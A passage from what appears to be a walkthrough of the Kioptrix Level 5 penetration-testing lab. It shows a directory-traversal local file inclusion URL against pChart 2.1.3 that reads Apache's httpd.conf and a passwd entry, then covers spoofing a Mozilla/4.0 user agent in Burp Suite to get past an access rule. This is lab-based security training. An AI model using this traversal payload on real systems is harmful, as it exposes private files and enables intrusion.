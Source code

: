 ```
ossecr:*:1003:1001:User &:/usr/local/ossec-hids:/sbin/nologin
```

After further enumeration nothing else was found that would help us get a shell
from port 80.

Next an attempt to troubleshoot port 8080 is made. The reason for 403 error
needs to be found. For that access to web serverâ€™s configuration file is needed.

We know that the target runs BSD. After reading FreeBSDâ€™s apache [manual](
https://www.freebsd.org/doc/en/books/handbook/network-apache.html), the
following LFI URL is crafted:

<http://192.168.20.148/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2f/usr/local/etc/apache22/httpd.conf>

From httpd.conf the following information obtained about port 8080:
```
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

It seems like only Mozilla4 browser is allowed to browse the website on that
port.

### Further Web Port Enumeration (Port 8080)

Burpsuite can be used to change the User-Agent to Mozilla/4.0 (Proxy -> Options) for every http
request as per screenshot below.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/burp1.png?raw=true)

Once the setting is on the intercept mode can be turned off.
